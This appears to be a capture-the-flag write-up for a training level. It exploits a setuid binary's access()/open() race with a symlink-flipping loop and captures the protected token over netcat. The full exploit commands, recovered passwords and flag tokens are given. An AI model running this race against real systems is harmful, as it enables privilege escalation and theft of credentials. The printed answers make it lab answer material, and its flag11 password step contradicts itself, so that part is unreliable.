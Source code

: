 # LEVEL 10

In our home directory, we have one suid/guid executable, and one token file:
		>$ ls -l
		total 16
		-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
		-rw-------  1 flag10 flag10     26 Mar  5  2016 token

If we run the executable, we see that it expects a file, to send it to the host.
		>$ ./level10
		./level10 file host
			sends file to host if you have access to it

Using strings command on the executable:
		>$ strings level10
		%s file host
			sends file to host if you have access to it
		Connecting to %s:6969 ..
		Unable to connect to host %s

In a second terminal lets use Netcat to listen on this port:
		>$ nc 6969 -l
Back in the first terminal, if we create a file and send it to ourselves, it arrives in the second terminal.
		>$ echo "hi" > /tmp/hi
		>$ ./level10 /tmp/hi {LOCAL_LAN_IPv4_ADDRESS}
		Connecting to {LOCAL_LAN_IPv4_ADDRESS}:6969 .. Connected!
		Sending file .. wrote file!

To access the token, we find a potential weakness in the binary's use of `access`.
		>$ nm -u level10
			U access@@GLIBC_2.0
reading man of access() we found:
		Warning:  Using  access()  to  check if a user is authorized to, for example, open a file
			before actually doing so using open(2) creates a security hole, because  the  user  might
			exploit  the  short time interval between checking and opening the file to manipulate it.

We open the token through a symbolic link created with another file in our HOME. which means we automate the process of creating the symbolic link and calling `./level10` with `while` in our shell:
		>$ chmod 777 . && touch test
		>$ (while true; do ln -sf test tmp; ln -sf token tmp; done)&
		>$ while true; do ./level10 tmp {LOCAL_LAN_IPv4_ADDRESS}; done
Then when we listen we read the token:
		>$ nc 6969 -l
		woupa2yuojeeaaed06riuj63c
		>$ su flag10
		Password: woupa2yuojeeaaed06riuj63c
		Don't forget to launch getflag !
		>$ getflag
		Check flag.Here is your token : feulo4b72j7edeahuete3no7c

this token is also the password for user flag11:
		>$ su flag11
		Password: woupa2yuojeeaaed06riuj63c
		Don't forget to launch getflag !
		>$ getflag
		Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

Vulnerability:
Race hazard with sequenced call to a access and open -> Privilege escalation via symlink attack

Documentations:
* https://stackoverflow.com/questions/7925177/access-security-hole